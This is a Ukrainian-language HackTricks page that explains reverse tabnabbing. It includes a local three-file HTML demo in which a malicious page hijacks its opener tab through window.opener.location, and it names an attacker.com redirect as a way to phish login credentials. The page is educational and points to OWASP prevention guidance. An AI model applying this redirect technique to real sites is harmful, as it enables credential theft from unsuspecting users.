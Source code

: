 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Опис

У ситуації, коли **зловмисник** може **контролювати** аргумент **`href`** тега **`<a`** з атрибутом **`target="_blank" rel="opener"`**, який буде натиснутий жертвою, **зловмисник** **направляє** це **посилання** на веб-сайт під своїм контролем ( **шкідливий** **веб-сайт**). Потім, коли **жертва натискає** на посилання і переходить на веб-сайт зловмисника, цей **шкідливий** **веб-сайт** зможе **контролювати** **оригінальну** **сторінку** через об'єкт javascript **`window.opener`**.\
Якщо сторінка не має **`rel="opener"` але містить `target="_blank"` і також не має `rel="noopener"`**, вона також може бути вразливою.

Звичайний спосіб зловживання цією поведінкою полягає в тому, щоб **змінити місцезнаходження оригінального веб-сайту** через `window.opener.location = https://attacker.com/victim.html` на веб-сайт, контрольований зловмисником, який **схожий на оригінальний**, щоб він міг **імітувати** **форму входу** оригінального веб-сайту та запитувати у користувача облікові дані.

Однак зверніть увагу, що оскільки **зловмисник тепер може контролювати об'єкт вікна оригінального веб-сайту**, він може зловживати ним іншим чином для виконання **прихованих атак** (можливо, модифікуючи події javascript для витоку інформації на сервер, контрольований ним?)

# Огляд

## Зворотне посилання

Посилання між батьківськими та дочірніми сторінками, коли атрибут запобігання не використовується:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITH_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITH\_LINK.png)

## Без зворотного посилання

Посилання між батьківськими та дочірніми сторінками, коли атрибут запобігання використовується:

![https://owasp.org/www-community/assets/images/TABNABBING_OVERVIEW_WITHOUT_LINK.png](https://owasp.org/www-community/assets/images/TABNABBING\_OVERVIEW\_WITHOUT\_LINK.png)

## Приклади <a href="#examples" id="examples"></a>

Створіть наступні сторінки в папці та запустіть веб-сервер за допомогою `python3 -m http.server`\
Потім, **перейдіть** за адресою `http://127.0.0.1:8000/`vulnerable.html, **натисніть** на посилання і зверніть увагу, як **URL** **оригінального** **веб-сайту** **змінюється**.

{% code title="vulnerable.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
{% endcode %}

## Доступні властивості <a href="#accessible-properties" id="accessible-properties"></a>

У сценарії, коли відбувається **крос-доменний** доступ (доступ через різні домени), властивості екземпляра класу **window** JavaScript, на який посилається об'єкт **opener** JavaScript, доступні для зловмисного сайту обмежені наступними:

- **`opener.closed`**: Ця властивість використовується для визначення, чи було закрито вікно, повертаючи булеве значення.
- **`opener.frames`**: Ця властивість надає доступ до всіх елементів iframe у поточному вікні.
- **`opener.length`**: Кількість елементів iframe, присутніх у поточному вікні, повертається цією властивістю.
- **`opener.opener`**: Посилання на вікно, яке відкрило поточне вікно, можна отримати через цю властивість.
- **`opener.parent`**: Ця властивість повертає батьківське вікно поточного вікна.
- **`opener.self`**: Доступ до самого поточного вікна надається цією властивістю.
- **`opener.top`**: Ця властивість повертає найвищу вікно браузера.

Однак у випадках, коли домени ідентичні, зловмисний сайт отримує доступ до всіх властивостей, які надає [**window**](https://developer.mozilla.org/en-US/docs/Web/API/Window) JavaScript.

# Запобігання

Інформація про запобігання задокументована в [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing).

## Посилання

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
